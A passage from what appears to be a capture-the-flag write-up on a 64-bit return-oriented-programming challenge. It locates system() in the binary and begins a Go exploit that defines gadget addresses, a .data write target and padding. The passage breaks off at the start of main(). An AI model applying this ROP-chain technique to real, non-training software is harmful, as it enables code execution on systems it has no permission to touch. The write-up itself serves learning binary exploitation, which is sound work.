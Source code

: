 The system() library function is located at 0x004005e0.
This is an easy win, because the address of an imported library function is no longer necessary.  
With the address of an imported library function, for example printf(), the offset between that function and system() could be calculated.  
This allows system() (printf() + offset) to be called directly with arguments placed in registers for execution.

#### Write the exploit
##### Define addresses to use
The addresses of the previously identified gadgets and system() are defined as well as a padding variable.
In the 64 bit version, padding is appended after each address defined. This is because the addresses are only
4 bytes and need to be padded to 8 bytes (64 bits) to account for the architecture.
```go
package main

import (
        "bufio"
        "fmt"
        "io"
        "log"
        "os"
        "os/exec"
        "time"
)

// 4 byte padding
var padding = "\x00\x00\x00\x00"

// .data section
// Location: 0x00601050
var dataSection = "\x50\x10\x60\x00" + padding

// pop rdi ret;
// Location: 0x004008c3
var popRDI = "\xc3\x08\x40\x00" + padding

// pop r12; pop r13; pop r14; pop r15; ret;
// Location: 0x004008bc
var popR12 = "\xbc\x08\x40\x00" + padding

// xor r11, r11; pop r14; mov edi, 0x601050; ret;
// Location: 0x00400822
var xorR11R11 = "\x22\x08\x40\x00" + padding

// xor r11, r12; pop r12; mov r13d, 0x604060; ret;
// Location: 0x0040082f
var xorR11R12 = "\x2f\x08\x40\x00" + padding

// xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
// Location: 0x00400840
var xchgR11R10 = "\x40\x08\x40\x00" + padding

// mov qword [r10], r11; pop r13; pop r12; xor byte [r10], r12b; ret;
// Location: 0x0040084e
var movPtrR10R11 = "\x4e\x08\x40\x00" + padding

// system()
// Location: 0x004005e0
var system = "\xe0\x05\x40\x00" + padding

func main() {
```
